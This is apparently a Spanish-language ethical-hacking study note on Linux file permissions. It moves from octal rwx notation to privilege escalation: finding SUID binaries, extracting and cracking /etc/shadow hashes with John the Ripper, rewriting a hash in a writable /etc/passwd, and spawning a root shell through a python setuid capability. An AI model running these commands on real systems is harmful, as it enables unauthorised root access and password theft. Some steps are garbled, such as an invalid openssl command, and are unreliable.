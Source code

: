 # Lectura de permisos
<p align="center">
  <img width="650" height="325" src="https://raw.githubusercontent.com/w0lfst/Apuntes-Hacking-Etico/main/assets/images/permisos.png">
</p>

> `X` Fichero: ejecutable | directorio: atravesar (cd) 
***
## Permisos formato decimal

|rwx | r-x |r-x |
|---|---|---|
|7|5|5|
- 7 = 1+2+4
- 5 = 1+4
- 5 = 1+4

La posicion se cuenta desde la derecha:
- x > 1
- w > 2
- r > 4

> Todo esta convertido de binario a decimal. Para saber como convertir mira el siguiente punto.

### Convertir de binario a decimal

|r-x | r-- |-w- |
|---|---|---|
|101|100|010|
|5|4|2|

Contar la posicion desde la derecha 0 1 2 
- Solo operamos con las posiciones que tengan un 1.
- Elevamos 2 a cada posicion:
  - 2^0 + 2^2 = 1 + 4 = 5
  - 2^2 = 4
  - 2^1 = 2

***
## Permisos avanzados

```bash
chattr +i -V fichero.txt
```
- `+i` Añadir flag que impide borrar el fichero hasta al usuario **root**.
- `-V` Muestra todo lo que realiza el comando.

> Ver los permisos especiales `lsattr` 

***

## Explotación permisos SUID
1. Asignar un permiso SUID, por ejemplo, el comando find es 755, con chmod añadimos un 4 al permiso del archivo

```bash
chmod 4755 /usr/bin/find
```

2. Con el comando `id` podemos ver los permisos SUID que tenemos.
3. Buscariamos en [GTFOBins](https://gtfobins.github.io/) el permiso que tenemos, en este caso, find. 

## Explotacion permisos

Buscar permisos SUID: 
```bash
find \-perm -4000  2>/dev/null 
```

Para evitar que salgan errores en el escaneo:
1. En bash el error se gestiona a trave del numero 2.
2. Redirigimos el error a /dev/null → 2>/dev/null 
		
Buscar archivos con permisos de escritura: 
```bash
find \-writable 2>/dev/null 
```
### Ejemplos ataque:
Si tenemos permiso para ver el archivo shadows podremos ver las contraseñas de los usuarios hasheadas en un formato sha-512.
> Comprobamos el tipo de hash con `cat /etc/login.defs | grep "ENCRYPT_METHOD"`


1. Desencriptaremos las contraseñas por fuerza bruta, por ejemplo con el diccionario rockyou.
2. Exportamos el hash:
```bash
cat /etc/shadow | grep "user" > hash
```
4. Crackemos:
```bash
john --wordlist=/usr/share/wordlists/rockyou hash 
```
6. Ver contraseña:
```bash
john --show hash
```

Si tenemos permiso de escritura en /etc/passwd:

1. Nos creamos una contraseña:
```bash
openssl nueva-contraseña
```
4. Veremos un hash y lo copiamos.
5. Con hash y hashid podemos saber en que formato esta hecho.
6. Modificamos el /etc/passwd y ponemos el hash que hemos generado para asi loguearnos como ese usuario con la contraseña creada anteriormente.

## Capabilities

Asignaremos un capabilite para realizar la prueba:
```bash
setcap cap_setuid+ep /usr/bin/python3.9
```
En este caso estamos asignando una capabilitie de tipo setuid, podemos ver mas tipos [aqui](https://wiki.gentoo.org/wiki/Hardened/Overview_of_POSIX_capabilities).

Para obtener las capabilities que tenemos asignadas actualmente:
```bash
cd /
getcap -r / 2>/dev/null
```

En este caso encontraremos una capabilitie de python tipo `cap_setuid+ep`.  
Aprovecharemos esta capabilitie para lanzarnos una bash con privilegios de root:
```bash
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

